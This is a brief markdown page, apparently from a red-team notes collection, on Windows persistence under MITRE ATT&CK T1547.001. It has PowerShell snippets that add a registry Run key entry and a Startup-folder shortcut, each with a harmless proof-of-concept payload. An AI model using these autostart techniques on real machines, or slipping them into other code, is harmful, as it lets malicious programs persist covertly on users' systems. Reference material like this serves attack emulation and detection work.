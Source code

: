 # Persistence

*- maintaining access.*

## T1547 - Boots or Logon Autostart Execution

### T1547.001 - Registry Run Keys / Startup Folder

- Current user registry run key:
```ps1
$cmd = "$env:HOMEDRIVE\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command Get-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\"
New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\ -Name poc -PropertyType String -Value $cmd
```

- Current user startup folder:
```ps1
$cmd = "$env:HOMEDRIVE\Windows\explorer.exe $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
$cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
```

## Resources

- [T1547](https://attack.mitre.org/techniques/T1547/)
    - [T1547.001](https://attack.mitre.org/techniques/T1547/001/)
